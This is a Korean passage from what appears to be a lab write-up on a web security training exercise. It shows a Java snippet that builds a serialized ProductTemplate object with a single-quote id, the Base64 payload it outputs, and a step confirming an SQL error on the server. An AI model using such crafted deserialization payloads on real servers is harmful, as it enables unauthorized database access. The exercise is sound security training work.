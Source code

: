 ```java
		  
		   return Base64.getEncoder().encodeToString(baos.toByteArray());
		}
	
	public static void main(String[] args) throws IOException {
		ProductTemplate template = new ProductTemplate("'");
		String base64SerialObject = serialize(template);
		System.out.println(base64SerialObject);
	}
}

```

실행 결과는 다음과 같다. 

```
rO0ABXNyACNkYXRhLnByb2R1Y3RjYXRhbG9nLlByb2R1Y3RUZW1wbGF0ZQAAAAAAAAABAgABTAACaWR0ABJMamF2YS9sYW5nL1N0cmluZzt4cHQAASc=
```

## 6. SQL인젝션 테스트용 페이로드를 서버로 전송하고 결과를 확인한다. 

페이로드를 서버로 전송하고 결과를 확인해본다. 다음과 같이 SQL 에러가 발생한 것을 확인할 수 있다. SQL인젝션이 가능한 것을 알 수 있다! 

![](/images/burp-academy-serial-8-8.png)
